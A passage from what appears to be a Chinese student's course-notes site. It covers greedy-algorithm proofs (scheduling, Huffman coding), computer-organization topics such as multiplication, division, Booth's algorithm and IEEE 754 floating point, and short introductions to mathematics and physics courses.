我们仍然使用“交换参数法”：假设有一个最优解 \(C\)，如果它的第一个任务是 \(i\)，证明结束。如果不是，我们考虑将 \(i\) 不断与前一个任务交换，直到换到第一个位置的过程。假设现在排在 \(i\) 前面一位的任务是 \(j\) ，我们知道一定有 $$ \frac{w_i}{l_i} \geqslant \frac{w_j}{l_j} $$ 又因为所有数都是整数，将它们移项就得到 \(w_i l_j - w_j l_i \geqslant 0\)。
不难看出，在 \(i\) 和 \(j\) 交换前后，其它的任务的加权时间完全没有变化，变化仅在于 \(i\) 和 \(j\) 上。设在 \(i\) 前面的总时间为 \(t\)，则交换前 \(i\) 和 \(j\) 的加权时间和为
$$ t_1 = w_j (t + l_i) + w_i (t + l_i + l_j) $$
交换后为
$$ t_2 = w_i (t + l_j) + w_j (t + l_i + l_j) $$
二者作差化简有
$$ t_1 - t_2 = w_i l_j - w_j l_i \geqslant 0 $$
因此我们发现，把 \(i\) 向前交换时，加权时间和一定不会变大，故仍然保证最优解。那么我们就可以不断把 \(i\) 往前换，直到它在第一个位置，这样就证明了贪心选择性质。
调度问题的最优子结构
- 在调度问题 \(S\) 中，我们用贪心策略选出 \(w_i / l_i\) 最大的 \(i\) 对应的任务后，剩下的子问题 \(S_1\)（即在除去 \(i\) 的任务中寻找一个最小化加权完成时间之和的解）的最优解 \(C_1\) 和 \(i\) 结合后一定构成了原问题的一个最优解 \(C\)。
证明：
证明思路和活动选择问题几乎完全一致，我们使用反证法来快速证明：
如果 \(C\) 不是最优解，那么一定存在一个最优解 \(C'\)，它对应的加权完成时间小于 \(C\) 的加权完成时间，\(T'< T\)。
根据贪心选择性质，如果我们把 \(C'\) 中的 \(i\) 不断通过相邻交换换到第一个位置，得到的解 \(C''\) 一定不会变差，\(T''' \leqslant T'\)。于是 \(C''\) 在选择了 \(i\) 之后，剩下的选择实际上也构成了 \(S_1\) 的一个可行解。
由于 \(T' < T\)，这表明 \(C''\) 中对应的 \(S_1\) 的解 \(C^{''}_1\) 必定比 \(C_1\) 更好，但我们知道 \(C_1\) 是最优解，因此得到矛盾。所以 \(C1\) 和 \(i\) 一起一定构成了原问题的一个最优解 \(C\)。
综上以反证法，我们最终得以验证了问题的最优解可以通过贪心+最优子结构的方式得到。同时我们也很容易发现，这一问题的时间复杂度最耗时的部分也在排序上，不再重复。
最小化最大延时
设有 \(n\) 个任务，每个任务 \(j\) 具有一个完成需要的时间 \(t_j\)，以及截止日期 \(d_j\)。我们只能逐个完成这些任务，不能并行。

在上面的例子中，三个任务长度分别为 1、2、3，截止日期分别为 2、4、6，按如图方式排序，所有任务都能在截止前完成。
而对于一般性的最小化最大延时问题，我们很容易想到下面两种贪心策略
-
按照每个任务需要花费的时间排序，先完成用时短的任务。
这种策略显然是错误的，因为用时短的任务很可能截止日期很远。例如我们考虑两个任务，一个需要1天，截止日期100天后；另一个需要10天，截止日期10天后，那么按照这里的调度方式显然不对。
-
按照 \(d_j-t_j\) 从小到大排序，先完成 \(d_j-t_j\) 比较小的任务，即先完成冗余时间量最短的任务。
这似乎看起来正确，但是实际上也是错误的。例如我们考虑两个任务，一个需要1天，截止日期2天后；另一个需要10天，截止日期10天后，那么按照这里的调度方式也不对。
事实上上面两种思路出现了一个矛盾：第一个表明完成时间 \(tj\) 越短越应该先完成，看起来很合理；第二个 \(tj\) 越短反而冗余时间变大，应该晚完成。这让我们进入了一个尴尬的局面：我们到底该如何考虑 \(t_j\) 呢？
实际上正确的答案是不考虑 \(t_j\)，我们只需要将各个任务按照截止日期 \(d_j\) 从小到大排序，然后依次完成即可。这样的策略是正确的，因为我们只需要保证每个任务在截止日期前完成即可，而不需要考虑完成时间。这样的策略也是符合贪心选择性质和最优子结构的，证明也可以利用“交换参数法”，这里就不再说明了
哈夫曼编码¶
哈夫曼编码希望找到一个字母表的期望长度最小（依据字母出现频率）的前缀编码，在之前最优二叉搜索树的讨论中我们似乎有一个类似的目标，但那里我们是希望最小化搜索的期望时间，并没有前缀编码的需求。事实上，哈夫曼编码具有非常强的信息论背景。
信息熵
对于一个离散型随机变量\(X\)，其信息熵定义为 $$ H(X) = -\sum_{i=1}^{n} p(x_i) \log_2 p(x_i) $$ 其中 \(p(x_i)\) 表示 \(X\) 取值为 \(x_i\) 的概率。
在平均意义下，信息熵的物理意义是对于一个随机变量\(X\)，我们需要多少比特的信息来描述它。
Example
-
考虑一个服从均匀分布且有 32 种可能取值的随机变量\(X\)。为了确定一个结果，需要一个能容纳 32 个不同值的标识，因此用 5 个比特足矣。而其信息熵为 $$ H(X) = -\sum_{i=1}^{32} \frac{1}{32} \log_2 \frac{1}{32} = 5 $$
-
有 8 匹马参加的一场赛马比赛，它们的获胜概率分别为
\[ \left\{ \frac{1}{2}, \frac{1}{4}, \frac{1}{8}, \frac{1}{16}, \frac{1}{64}, \frac{1}{64}, \frac{1}{64}, \frac{1}{64} \right\} \]假定我们要把哪匹马会赢的信息告诉给别人，其中一个策略是发送胜出的马的编号，这样对于任何一匹马都需要 3 个比特。但由于概率不是均等的，明智的方法是对概率大的马用更短的编码，对概率小的马用更长的编码。例如使用以下编码：
0,10,110,1110,111100,111101,111110,111111，这样平均每匹马需要 2 个比特，比使用等长编码的比特数更短
算法描述¶
我们通过二叉树来构建编码树，所有需要表示的信息都处于叶结点上，非叶子结点不储存任何信息。从根节点到叶结点的所有路径上，左分支表示 0，右分支表示 1。这样的编码树是满足前缀编码的的要求的，即任何一个字符的编码都不是另一个字符编码的前缀（这在离散数学中证明过了）。

例如在上图的这颗编码树中，a、u、x、z的编码分别为00、01、10、11。

把根结点的深度记为0，那么我们就发现，对于一个字符 \(c\)，它的编码长度就是它在编码树中的深度，于是我们的目标就转换成了找到一个编码树，在考虑每个字符出现的概率的情况下，最小化所有字符的深度。
记某个字符 \(x_i\) 的深度为 \(d_i\)，出现的概率为 \(f_i\)，那么我们的目标就是找到一种构造编码树的方式，使得 $$ \min \sum_{i=1}^{n} f_i \cdot d_i $$
对于字符串aaaxuaxz来说，最佳的编码方式如右图所示，此时的编码长度为 \(1 \times 4 + 2 \times 2 + 3 \times 1 + 3 \times 1 = 14\)。小于刚刚的等长编码的长度 \(2 \times 4 + 2 \times 1 + 2 \times 2 + 2 \times 1 = 16\)。
构造哈夫曼编码树
- 给定一组待编码的字符，每个字符都有一个出现频率（或者权重）。
- 根据字符的频率，将所有字符放入一个优先队列（最小堆）中，堆中每一个结点都是一个字符，结点的值是字符的频率。
-
从优先队列中取出两个频率最小的字符，构造一个新的父结点，其频率为两个字符的频率之和。这个父结点的左右孩子分别是这两个字符，然后将这个新结点重新插入最小堆中。
通常来说，频率更小的孩子作为左孩子，频率更大的孩子作为右孩子，当然这种方法不是一定的。
-
重复步骤 3，直到最小堆中只剩下一个结点，这个结点就是哈夫曼编码树的根结点。
- 生成编码，从根结点出发到每一个叶结点，给左分支分配
0，给右分支分配1，每个字符的哈夫曼编码就是从根结点到它对应的叶结点的路径上的所有0和1的依次组合。
Huffman 编码的正确性¶
哈夫曼编码的贪心选择性质
- \(C\) 为一个字母表，其中每个字符 \(c \in C\) 都有一个频率 \(c.freq\).令 \(x\) 和 \(y\) 是 \(C\) 中频率最低的两个字符。那么存在 \(C\) 的一个最优前缀码，\(x\) 和 \(y\) 的码字长度相同，且只有最后一个二进制位不同(即在编码二叉树中，它们是兄弟节点)。

我们仍然可以使用交换参数法来证明新的树不会比原来的树更差，因此如果原来的树是最优的，那么新的树也是最优的。
哈夫曼编码的最优子结构性质
-
\(C\) 为一个字母表，其中每个字符 \(c \in C\) 都有一个频率 \(c.freq\)。令 \(x\) 和 \(y\)是 \(C\) 中频率最低的两个字符。令 \(C'\) 为 \(C\) 去掉字符 \(x\) 和 \(y\)，加入一个新字符 \(z\) 后的字母表。
我们给 \(C'\) 也定义频率集合，不同之处只是 \(z.freq = x.freq + y.freq\)。令 \(T'\) 为 \(C'\) 的任意一个最优前缀码树，那么我们可以将 \(T'\) 中叶结点 \(z\) 替换为一个以 \(x\) 和 \(y\) 为孩子的内部结点得到一个 \(C\) 的一个最优前缀码树 \(T\)。

依然是使用反证法证明。记 \(B(T)\) 为树 \(T\) 的代价，即所有字母的期望编码长度（即 PPT 上的 cost）。我们很容易得到 $$ B(T) = B(T') + x.freq + y.freq $$ 因为 \(T'\) 就相当于把 \(T\) 中的 \(x,y\) 上移一层。
假设 \(T\) 不是 \(C\) 的最优前缀编码树，那么存在一个更优解 \(T''\)，使得 \(B(T'') < B(T)\)。根据前面的引理，我们可以将 \(T''\) 中 \(x\) 和 \(y\) 和它们的父结点替换为 \(z\)，得到一个新的树 \(T'''\)，其中 \(z.freq = x.freq + y.freq\)。那么我们有 $$ B(T''') = B(T'') - x.freq - y.freq < B(T) - x.freq - y.freq = B(T') $$ 这与 \(T'\) 是最优解矛盾，因此我们的假设是错误的，\(T\) 必定是 \(C\) 的最优前缀编码树，证毕。
贪心算法的讨论¶
贪心算法的范式¶
贪心算法通过做出一系列选择来求出问题的最优解。在每个决策点，它做出在当时看来最佳的选择。这种启发式策略并不保证总能找到最优解，但对有些问题确实有效，如活动选择问题。
一般地，我们可以按如下步骤设计贪心算法：
- 将最优化问题转化为这样的形式：对其做出一次选择后，只剩下一个子问题需要求解
- 证明做出贪心选择后，原问题总是存在最优解，即贪心选择总是安全的
- 证明做出贪心选择后，剩余的子问题满足性质：其最优解与贪心选择组合即可得到原问题的最优解，这样就得到了最优子结构
贪心算法的证明¶
之前涉及的“交换参数法”并不是唯一的证明贪心选择正确性的方法，虽然“交换参数法”是对于很大一部分问题比较直观的一种证明手段，但贪心这一思想实在是应用太广泛，所以我们无法保证这种证明方法对所有问题都适用。
但对于大部分问题贪心算法的证明而言，贪心选择性质和最优子结构是两个关键要素
-
贪心选择性质：我们可以通过做出局部最优（贪心）选择来构造全局最优解。换句话说，当进行选择时，我们直接做出在当前问题中看来最优的选择，而不必考虑子问题的解。
这也是贪心算法与动态规划的不同之处。在动态规划方法中，每个步骤都要进行一次选择，并且当前的选择通常依赖于子问题的解。但在贪心算法中，我们总是做出当时看来最佳的选择，然后求解剩下的唯一的子问题。贪心算法进行选择时可能依赖之前做出的选择，但不依赖任何将来的选择或是子问题的解。
如果进行贪心选择时我们不得不考虑众多选择，通常意味着可以改进贪心选择，使其更为高效。例如，在活动选择问题中，假定我们已经将活动按结束时间单调递增顺序排好序，则对每个活动能够只需处理一次。通过对输入进行预处理或者使用适合的数据结构（通常是优先队列），我们通常可以使贪心选择更快速，从而得到更高效的算法。
-
最优子结构：一个问题的最优解包含其子问题的最优解。
如前活动选择问题所述，通过对原问题应用一次贪心选择即可得到子问题，那么最优子结构的工作就是论证：将子问题的最优解与贪心选择组合在一起的确能生成原问题的最优解。这种方法隐含地对子问题使用了数学归纳法，证明了在每个步骤对子问题进行贪心选择，一步一步推进就会生成原问题的最优解。
对于一个很困难的问题去寻找一个合理的贪心思路是比较困难的，有时候我们需要去考虑把一些极端的情况，从中我们或许会发现具有哪些性质的解是我们最想要的（例如调度问题用这一思想就很容易想到可能的解法）。。在多参数（例如调度问题有权重、完成时间、截止时间等参数）的情况下，我们也可以固定某些参数看另一些参数的变化等，这些小技巧都能帮助我们对问题的基本结构有一个观察。
Ended: 高级数据结构与算法分析
计算机组成与设计 ↵
计算机组成与设计¶
约 72 个字 预计阅读时间不到 1 分钟
教材: Computer Organization and Design The Hardware Software Interface [RISC-V Edition]
任课教师：刘海风
TA：郭家豪
成绩组成
- 实验 30%
- 理论 70%
- Homework + Quiz + Midterm 30%
- 期末 40%
- 一份A4小抄
Table of Contents¶
Computer Abstractions and Technology¶
约 955 个字 1 张图片 预计阅读时间 4 分钟
graph LR;
A["Computer
System"]
B["Software"]
C["Hardware"]
D["CPU"]
E["Memory"]
F["I/O
interface"]
G["Control unit"]
H["Datapath"]
A--->B
A--->C
C--->D
C--->E
C--->F
D--->G
D--->H
Eight Great Ideas in Computer Architecture¶
有一些在实际的题目中难以区分，需要注意题目中的某些暗示。
- Design for Moore’s Law (设计紧跟摩尔定律)
- Moore's Law: Integrated circuit resources double every 18-24 months.
- Use Abstraction to Simplify Design (采用抽象简化设计)
- 采用层次化、模块化的设计
- Make the Common Case Fast (加速常见事件)
- Performance via Pipelining (通过并行提高性能)
- Performance via Pipelining (通过流水线提高性能)
- 所有流程同时进行，每个流程工作的对象是相邻流程的产品
- Performance via Prediction (通过预测提高性能)
- Hierarchy of Memories (存储器层次)
- Disk / Tape \(\xrightarrow{Files}\) Main Memory(DRAM) \(\xrightarrow{Pages}\) L2-Cache(SRAM) \(\xrightarrow{Blocks}\) L1-Cache(On-Chip) \(\xrightarrow[Operands]{Instr.}\) Registers
- Dependability via Redundancy (通过冗余提高可靠性)
Components of a Computer¶
The five classic components of a computer:
- input;
- output;
- memory (DRAM);
- 程序、数据存储的地方，也是程序“运行的位置”；
- cache memory (SRAM): buffer for the DRAM memory;
- datapath;
- 负责实际的数据处理；
- control;
- 负责指挥控制如何进行数据处理，给出控制信号；

Performance¶
衡量计算机的性能和表现的重要标准是“运行速度”
- Response Time / Execution Time 从程序开始到结束的时间
- Throughput(吞吐量) / Bandwidth 单位时间内完成的任务数量
当我们衡量一个 CPU 的性能，或者具体分析一个 CPU 的性能构成时，就需要更加具体的指标:
- CPU (execution) time（CPU 执行时间）
- CPU clock cycle（时钟周期数）
- clock rate(frequency)（时钟频率） / clock cycle time（时钟周期）
- IC (Instruction Count): 指令总数
- CPI (cycles per instruction): 平均每条指令所需要的时钟周期数 = 总时钟周期数 / IC，一般与编译器有关
- 若不同的指令有不同的 CPI，则我们可以用 Average CPI
综上，可以得到 $$ CPU Time = \frac{Instructions}{Program} \times \frac{Clock Cycles}{Instruction} \times \frac{Seconds}{Clock Cycle} $$
一些常见名词¶
MIPS: Millions of Instructions Per Second
- 在其他参数都相同时才有比较意义
- 在不同的 ISA 之间不能仅凭 MIPS 比较；也不可用于比较指令的复杂程度
ISA: 指令集合架构(Instruction Set Architecture)
定义了计算机硬件与软件之间的接口。它具体包括：
- 支持的指令类型（数据处理、控制、输入/输出等）
- 数据类型（整数、浮点数、字符等）
- 寄存器设计（寄存器数量和类型）
- 地址模式（如何计算指令操作数的地址）
RISC（Reduced Instruction Set Computing）是一种指令集设计理念
- 指令数量较少，且所有指令都在单个时钟周期内执行。
- 每条指令长度相同，通常为固定大小。
- 使用大量的寄存器以减少内存访问。
- 简化的寻址模式，提高了执行效率。
- 硬件设计更简单，易于流水线操作，提高了性能。
MISC（Minimal Instruction Set Computing）是一种极简指令集设计
- 指令集非常小，通常只有几条基本指令。
- 每条指令可能需要多个周期才能执行。
- 多数指令依赖于程序的所有操作通过少量基本指令组合完成。
- 硬件实现简单，小型设备或特定应用中常见。
CISC（Complex Instruction Set Computing）是另一种指令集设计理念
- 包含大量指令，且每条指令可以执行复杂的操作。
- 指令长度不固定，许多指令可以通过一条指令进行多步操作。
- 支持更多的寻址模式和数据类型。
- 可以减少程序的大小，因为许多操作可以通过单条指令完成。
Instructions: Language of the Computer¶
约 5 个字 预计阅读时间不到 1 分钟
Arithmetic for Computers¶
约 3645 个字 19 张图片 预计阅读时间 15 分钟
Introduction¶
在计算机中指令可分为三类
-
memory-reference instructions 需要ALU计算内存地址，如
lw,swlw: load word, 从内存中读取一个字sw: store word, 将一个字写入内存
-
arithmetic-logical instructions 需要ALU执行算数或逻辑运算，如
add,sub,and,or,sltslt: set less than, 如果第一个操作数小于第二个操作数，将结果置为1，否则置为0
-
control flow instructions 需要ALU进行条件判断，如
beq,bne,jalbeq: branch if equal, 若两操作数相等则跳转至指定地址bne: branch not equal, 若两操作数不相等则跳转至指定地址jal: jump and link, 跳转至指定地址并将下一条指令地址存入寄存器
有符号数的表示¶
- Sign and Magnitude
- 1's Complement
- 2's Complement
- Bias Notation(偏移表示法)
关于偏移表示法
偏移表示法（移码）可用于表示正数或复数，其基本思想是引入一个偏移量，使得所有数都是非负数。例如，偏移量为100，那么-100可表示为0，0可表示为100，100可表示为200。这样一来硬件就可以把所有的数字当作无符号数来处理，而不需要区分正负数，从而简化了硬件的设计与实现，常用于浮点数表示等。
例如我们使用8 bit来表示数字，偏移量就可以设置为\(2^7 - 1 = 127\)，这时候
- 数字0表示为\(0 + 127 = 127\)，即
01111111 - 数字-1表示为\(-1 + 127 = 126\)，即
01111110 - 数字1表示为\(1 + 127 = 128\)，即
10000000
要从偏移表示法转换为原始的有符号数，只需要减去偏移量即可。
对于二进制补码表示的有符号数，要将其变为偏移法表示，只需要把它的符号位反转，再整体减去1即可，如
- \(1\):
00000001->10000000 - \(-1\):
11111111->01111110 - \(0\):
00000000->01111111
Arithmetic¶
加法和减法在这里不再赘述，主要讨论乘法和除法，但需要注意的是加减法的溢出检测。在设计加减法器时，通常会在数据位的基础上额外添加一位用于判断是否溢出或进位，这通常称为溢出位（Overflow Bit）或进位位（Carry Bit）
| Operation | Operand A | Operand B | Result overflow |
|---|---|---|---|
| \(A + B\) | \(\geqslant 0\) | \(\geqslant 0\) | \(< 0\) (01) |
| \(A + B\) | \(< 0\) | \(< 0\) | \(\geqslant 0\) (10) |
| \(A - B\) | \(\geqslant 0\) | \(< 0\) | \(< 0\) (01) |
| \(A - B\) | \(< 0\) | \(\geqslant 0\) | \(\geqslant 0\) (10) |
表格中，溢出位在结果的符号位的左侧，可以看出，发生溢出时溢出位与进位位的异或结果为1，即\(C_{n+1} \oplus C_n = 1\)
Multiplication¶
Unsigned multiplication¶
- Version 1
最简单朴素的想法，根据当前处理的 Multiplier 的位的0/1来选择是否要将 Multiplier 的对应移位结果加到 Product 上去。
每执行一次判断，都要左移被乘数，同时右移乘数来获取新一位的来判断下一步是否要做加法。

但是这种方式实现的乘法相当消耗资源，需要 128+128+64 bit 的寄存器，和一个 128 bit ALU
- Version 2
可以发现，在V1中我们做了大量的128位加法，但是实际上被加过去的 Multiplicand 有效内容只有 64 位。经过改进后的V2解决了这个问题。

这里我们把储存 Multiplicand 的寄存器换成了64位的，把移位操作转移到了 Product 寄存器中进行。这里需要注意的是，64位的加法始终只在Product寄存器的高64位上进行，而每一次操作后都要把 Product 寄存器右移一位，经过64次操作之后就得到了最终的乘积。
- Version 3
我们还发现，我们对Multiplier的右移是为了枚举最低位，但是为了实现这个枚举，我们每次都要做64位的右移；此外在最开始时，Product寄存器的低位是没有意义的。
仔细思考后可以发现，Product寄存器和Multiplier寄存器都要进行右移，而每一次右移后 Multiplier 寄存器的有效数据就减少一位，而 Product 寄存器的有效数据就增加一位，那么我们就可以在最开始时直接把 Multiplier 放在 Product 寄存器的低64位，每一次右移都可获得 Multiplier 的最低位，同时也给 Product 腾出来了一个位置用于新一次的加法，因此这样的设计是合理的。

这么做的好处在于大大节省空间了，少用了一个64 bit的寄存器，总共需要 128 bit 的寄存器和一个 64 bit ALU，相比于 Version 1，提升是相当可观的。
Signed multiplication¶
- 直观的有符号乘法
有符号数由于符号位的存在不能直接相乘，我们可以直接根据乘数和被乘数的符号位来决定乘积的符号位（直接异或即可），然后再对绝对值进行无符号乘法。
- Booth's Algorithm
Booth's Algorithm 的主要思想在于减少乘数中1的数量，也即减少进行加法运算的次数，想办法用移位操作代替加法，因为很显然的是移位操作消耗的时间要少于加法。
在原先的乘法中，每当乘数中有一个1，都要进行一次加法，但是如果乘数中有一串较长的1时，就可以把它转化为一个大数字减一个小数，如：00111100 = 01000000 - 00000100，虽然进行了一次减法，但我们确实减少了做加法的次数，这在许多情况中是可以加快运算速度的

进行Booth算法时，我们每次对乘数进行两位两位的观察，但因为我们要进行\(n\)次操作，但这样只能观察\(n-1\)次，因此我们一开始时要在乘数的右边补上一个零再开始做 Booth 的乘法。\(Bit_{-1} = 0\)
- 10 - subtract multiplicand from left half
- 11 - no arithmetic operation - just shift
- 01 - add multiplicand to left half
- 00 - no arithmetic operation - just shift
要注意右移时可能会改变\(Bit_{-1}\)，并且右移时不能改变符号位，左侧填充的数字应当与符号位相同。
Example


需要提醒的是，这里在进行乘法运算时采用了上面V3的思路，即在最开始把乘数放在 Product 寄存器的低位中，每次把 Multiplier 右移后，\(Bit_{-1}\)就变成了移出来的那一位数据
Booth's Algorithm 对于有符号数都是成立的，
Faster Multiplication¶
这里采用了并行加速的思想，32位数乘32位数，就相当于32个32位数相加，我们可以采取用空间（硬件资源）换时间的方式来加速乘法，需要考虑的是花销与性能的 trade off。

Division¶
除法在某种程度上与乘法相似，也可以有不断改进的Version，只不过是除数在被除数的高位上进行减法。
如果减法得到的结果大于0，那么商的对应位为1，否则就要把减去的除数再重新加回来，商的对应位为1。也就是说，如果能除下来，就直接在被除数上减去除数，如果不能除下来，那就要加回来然后直接移位看下一位能不能除下来。
在这里就偷懒只给出V1和V3了。
- Version 1
将除数放到高位。从高位开始减，减完将除数右移。商也随之不断左移。如果减完之后是负数，需要还回去。

7÷2 V1

- Version 3
优化的思路和乘法器十分类似，每次循环都是 Reminder 寄存器的最高位在做减法，减了之后就左移把最高位丢弃了，右侧空出来的位置就可以用来保存新计算得到的 Quotient。

7÷2 V3

这里我们需要注意一下，因为最开始时 Reminder 寄存器的高位都是没有意义的0，这个时候直接做减法的话结果肯定是小于0的，没有什么意义，因此在最开始时就要把 Reminder 寄存器左移一位，然后再开始进行减法和移位操作。
因为最开始的时候就左移了一次，最后就要右移一次把这个左移给抵消掉。事实上这里的 Reminder 寄存器要多一位，因为最后一步右移的存在，上一步左移出来的数据不能直接丢弃，还需要右移回去。
对于有符号数的除法，就直接用它们的绝对值来做无符号除法，然后再给商和余数加上符号即可。
- 余数的符号始终与被除数相同，商的符号可根据除数、被除数和商来决定，即
- 余数的符号 = 被除数的符号
- 商的符号 = 被除数的符号 \(\oplus\) 除数的符号
除以零时会发生溢出，硬件不负责对此进行处理，由软件负责检测和处理除零问题
Floating point number¶
在数字位数较多时我们常用科学计数法来表示十进制数，对于二进制数，我们也可以采用类似的方式进行表示，这就是浮点数(Floating point number)的表示方法。
Normal Numbers(规格化数)¶

我们通常讨论的浮点数都遵守 IEEE 754 标准，包括单精度和双精度两种，在 C 语言中就是我们常见的Float和Double
| S | exp | frac | |
|---|---|---|---|
| Float | 1 | 8 | 23 |
| Double | 1 | 11 | 52 |
规格化浮点数采用 \((-1)^S \times M \times 2^E\) 的形式来表示，其中
- S: sign. \(S = 1\) 时表示复数
- M: 位数. 通常而言 $M = 1.frac = 1 + frac $
-
E: 阶码. 通常而言 \(E = exp - Bias\)
对于单精度浮点数 \(Bias = 127(2^7-1)\)，对于双精度浮点数 \(Bias = 1023(2^{10}-1)\).
Note
- 为什么要把 exponent 放在前面？（因为数的大小主要由 exponent 决定。）
- exponent 采用移码表示是为了防止一个浮点数中出现两个符号位，同时在对指数位进行运算时，无符号数显然要比有符号数更简单
- 对于规格化数，尾数一定会有前导
1，因此实际上只需要表示小数部分(fraction)就足够了
Precision¶
单精度和双精度浮点数转换为十进制数时的精度（小数点后有效位数）分别为：
-
single: approx \(2^{-23}\)
\(23 \times \log_{10} 2 \approx 23 \times 0.2 \approx 7\) demical digits of precision
-
double: approx \(2^{-52}\)
\(52 \times \log_{10} 2 \approx 52 \times 0.2 \approx 16\) demical digits of precision
Limitations¶
显然，浮点数能表示的范围也是有限的
- Overflow(上溢): The number is too big to be represented
- Underflow(下溢): The number is too small to be represented
Denormal Numbers(非规格化数)¶
我们容易注意到上面的表示方法，即规格化数无法表示零以及零附近很小的数，这时候就要使用到非规格化数。对于这样的特殊情形，IEEE 754 有特别规定，用特殊的值保存它们：

在上表中：
- 第1条表示 0，即指数和尾数都是0
- 第2条表示非规格化数，这种数主要是为了用来表示一些很小的数，它的取值为 \((-1)^S \times (0 + fraction) \times 2^{-Bias}\)
- 第3条表示正常的浮点数；
- 第4条表示无穷大或者无穷小，出现在 exponent overflow 或者浮点数运算中非 0 数除以 0 的情况；
- 第5条表示非数(Not a Number)，出现在 0/0, inf / inf, inf - inf, inf \(\times\) 0 的情况
Floating-Point Addition¶
浮点数的加法可以分为以下步骤（减法类似）：
- Alignment：指数对齐，将小指数对齐到大指数
- The proper digits have to be added
- Addition of significands：尾数部分相加减
- Normalization of the result： 将结果规格化
- Rounding：将 Fraction 部分舍入到正确位数；舍入结果可能还需要规格化，此时回到步骤4继续运行

为何在对齐时要把小指数对齐到大指数？
首先，小对大的过程是在小指数的 fraction 前补0，可能导致末尾数据丢失；大对小的过程是在大指数的 fraction 后补0，可能导致前面的数据丢失。在计算过程中，我们保持的精确位数是有限的，而在迫不得已丢去精度的过程中，让小的那个数的末几位被丢掉的代价比大的前几位丢失要小太多了，也就是说，丢弃掉末尾的数据对整个数字的改变最小。
Example

FP Adder Hardware

- 蓝色线为控制通路，黑色线为数据通路
- 首先比较两个浮点数的指数部分，并进行对齐。同时尾数可能还需要加上前导
1 - Normalize 部分是对计算结果进行规格化处理，假如后面的舍入步骤导致浮点数变得非规格化了，那么就需要再进行一次 Normalize
Floating-Point Multiplication¶
$ (s1 \cdot 2^{e1}) \cdot (s2 \cdot 2^{e2}) = (s1 \cdot s2) \cdot 2^{e1 + e2} $
浮点数的乘法要分别处理符号位、指数位和尾数：
-
Add exponents
这里要减去一个 Bias，因为 Bias 加了 2 次
-
Multiply the significands
- Normalize
-
Over/Underflow?
有的话要抛出异常，通过结果的指数判断。
-
Rounding
-
Sign
根据两个操作数的符号决定结果的符号
Example

Data Flow

- 右边返回的箭头：Rounding 后可能会进位，需要重新规格化
Accurate Arithmetic¶
IEEE 754 规定了一些额外的舍入控制，用来保证舍入的精确性

Round to nearest even 只对0.5有效，别的数都和普通的四舍五入一样
-
guard/round- 一般的浮点数后面还会有 2 bits，分别称为
guard和round，其主要目的是让计算结果的舍入更加的精确： - 只在运算的过程中保留，结果中不会体现
事实上加法只需要用到 guard，但是对于乘法，如果存在前导 0，需要将结果左移，这时候 round bit 就成了有效位，能避免精度的损失。
- 一般的浮点数后面还会有 2 bits，分别称为
-
sticky只要 round 右边出现过非零位，就将sticky置1，这一点可以用在加法的右移中，可以记住是否有 1 被移出，从而能够实现 "round to nearest even"。 -
ulp (units in the last place)The number of bits in error in the least significant bits of the significant between the actual number and the number that can be represented.
- 精度损失不会超过 0.5 个
ulp
- 精度损失不会超过 0.5 个
Ended: 计算机组成与设计
Ended: Computer Science
数理 ↵
数学分析（甲）Ⅱ(H)¶
约 90 个字 1 张图片 预计阅读时间不到 1 分钟
任课教师：阮火军
成绩组成
- 作业+点名 20%
- 小测 20%
- 期末 60%
由于一直以来做的都是纸质笔记，页数较多不方便搬上来，因而在这里只放期末补天时做的一些重点知识整理。

线性代数Ⅱ(H)¶
约 73 个字 1 张图片 预计阅读时间不到 1 分钟
任课教师：吴志祥
由于一直以来做的都是纸质笔记，页数较多不方便搬上来，因而在这里只放期末补天时做的一些重点知识整理。
普通物理学Ⅱ ↵
普通物理学Ⅱ(H)¶
约 135 个字 预计阅读时间 1 分钟
任课教师：方明虎
竺院最难传说と绝凶の课程！普通物理学Ⅱ(H)です
普通物理学Ⅱ(H)的内容都在五个方程中 $$ \vec{F} = q(\vec{E} + \vec{v} \times \vec{B}) $$ $$ \oiint \vec{E}·d\vec{A} = \frac{Q_{inside}}{\epsilon_0} $$ $$ \oiint \vec{B}·d\vec{A} = 0 $$ $$ \oint \vec{E}·d\vec{l} = -\frac{d\Phi_B}{dt} $$ $$ \oint \vec{B}·d\vec{l} = \mu_0 I + \mu_0 \epsilon_0 \frac{d\Phi_E}{dt} $$
Table of Contents¶
向普通物理学，投降！
电学¶
约 6942 个字 53 张图片 预计阅读时间 28 分钟
电荷和库仑定律¶
- proton(质子)，electron(电子)，neutron(中子)
- quark(夸克)： \(-\dfrac{1}{3} e\) 或 \(+\dfrac{2}{3} e\)
- Insulators (绝缘体)
- Conductors (导体)
- Semiconductors (半导体)
- Superconductors (超导体)
电荷密度
一般而言，电荷有三种这样的密度：
- Linear Charge density(线电荷密度) \(\lambda = \dfrac{q}{L}\)
- Surface Charge Density(面电荷密度) \(\sigma = \dfrac{q}{A}\)
- Volume Charge Density(体电荷密度) \(\rho = \dfrac{q}{V}\)
A Ring of Charge¶

